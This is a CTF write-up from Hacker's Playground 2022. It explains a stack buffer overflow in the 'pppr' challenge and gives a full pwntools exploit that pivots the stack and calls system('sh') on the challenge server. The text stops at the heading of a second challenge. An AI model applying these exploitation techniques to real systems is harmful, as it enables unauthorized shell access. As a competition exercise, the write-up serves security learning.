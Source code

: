 # Hacker's Playground 2022

A 24h CTF Organized by Security Team of Samsung Research.

I played as a member of Soteria Team & together, we ranked 21th out of more than 700 teams.

I really enjoyed playing in this CTF & I wished it would be longer. There were some creative & hard challenges that were fun to play & discover. I've managed to solve 2 pwn challenges, helped in few & made progress in few other challenges.

------------

- [Pwn](#Pwn)
    -  [pppr](#pwn1 "Writeup")
	-  [riscy](#pwn2 "Writeup")

------------

### Pwn
1. <p name="pwn1">pppr</p>

For this one, we were given a [decompiled source code](/2022/Hacker's%20Playground%202022/sources/decompiled.c) from IDA & a x86 binary. Looking at the source code, we have a function used to read from `stdin`, this should be an equivalent to `fgets`:

```c
int __cdecl r(int a1, unsigned int a2, int a3)
{
  int result; // eax
  char v4; // [esp+3h] [ebp-9h]
  unsigned int i; // [esp+4h] [ebp-8h]

  if ( a3 )
  {
    puts("r() works only for stdin.");
    result = -1;
  }
  else
  {
    for ( i = 0; a2 > i; ++i )
    {
      v4 = fgetc(stdin);
      if ( v4 == -1 || v4 == 10 )
        break;
      *(_BYTE *)(a1 + i) = v4;
    }
    *(_BYTE *)(i + a1) = 0;
    result = i;
  }
  return result;
}
```

Looking at our main

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4[4]; // [esp+0h] [ebp-8h] BYREF

  setbuf(stdin, 0);
  setbuf(stdout, 0);
  alarm(0xAu);

  r(v4, 64, 0);
  return 0;
}
```

We are clearly able to write out of bound of `v4` variable, this is our **BOF**. We also have the function `system` used in function `x` therefore we can use this instead of a **ret2libc**.

Checking the security of the binary, we have PIE disabled so we can write our `/bin/sh` into the binary & use it to call `system`. Later on I used `sh` only instead of `/bin/sh`, luckly `/bin` was in the `PATH` variable.

Plan is, write `sh` to a known & writeable address alongside a `system` address to call it with `sh` string. We then stack pivot to that address to make our call & get a shell. Solver:

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./pppr")

context.binary = exe


def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("pppr.sstf.site", 1337)

    return r


def main():
    r = conn()
    
    writeable = 0x804a000+0xa00
    leave_ret = 0x08048643
    
    payload = b"A"*8
    payload += p32(writeable+len('sh')+26) # ebp
    payload += p32(exe.symbols.r)
    payload += p32(leave_ret) # ret to leave - Stack pivot
    payload += p32(writeable)
    payload += p32(0x100)
    payload += p32(0)
    
    r.sendline(payload)
    
    payload2 = b'sh\0' 
    payload2 += b'A'*25 # padding
    payload2 += p32(0)
    payload2 += p32(exe.symbols.x)
    payload2 += p32(0)
    payload2 += p32(writeable)
    
    pause()
    r.sendline(payload2)

    r.interactive() # SCTF{Anc13nt_x86_R0P_5kiLl}


if __name__ == "__main__":
    main()
```

<br />

1. <p name="pwn2">riscy</p>